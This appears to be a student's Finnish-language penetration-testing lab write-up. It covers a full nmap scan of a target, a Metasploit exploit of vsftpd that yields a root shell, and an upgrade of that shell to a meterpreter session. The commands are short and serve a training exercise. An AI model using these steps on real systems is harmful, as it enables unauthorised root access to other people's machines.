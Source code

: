 



# e.)

ajoin komennon db_nmap -A -p0- <kohde>.


<img width="680" alt="1" src="https://github.com/AkiAleksi/h3/assets/112399816/67fc95ec-fafb-427c-9389-c4712921652f">



<img width="655" alt="2" src="https://github.com/AkiAleksi/h3/assets/112399816/fd40d87f-350e-40c7-882b-2c1e3ad567d1">



<img width="663" alt="3" src="https://github.com/AkiAleksi/h3/assets/112399816/564427b6-213e-4e13-9893-aadb5f7fbadd">

Skannauksessa näkyy kaikki mahdolliset portit. Siinä näkyy myös palvelutiedot, käyttöjärjestelmätiedot ja versiotiedot.

# f.)

Avasin msfconsolin. Syötin search vsftpd. use 1, set RHOSTS <kohde>, exploit.

Toisen tietokoneen shell auki.



<img width="658" alt="Screenshot 2023-11-10 at 14 57 07" src="https://github.com/AkiAleksi/h3/assets/112399816/368d5e17-8411-4765-813d-77f1788dfad7">











Lopuksi ajoin id. Näkyy root.

<img width="281" alt="Screenshot 2023-11-10 at 15 03 15" src="https://github.com/AkiAleksi/h3/assets/112399816/a380efcc-d88d-402a-8592-a23e48a34701">


# g.)

Ohjeet: https://infosecwriteups.com/metasploit-upgrade-normal-shell-to-meterpreter-shell-2f09be895646

Päivitin session meterpreter sessioksi. Ajoin komennot:
CTRL + Z,
y,
search shell_to_meterpreter,
use 0,
sessions -l,
show options,
set SESSION 1,
run,
session -i 2
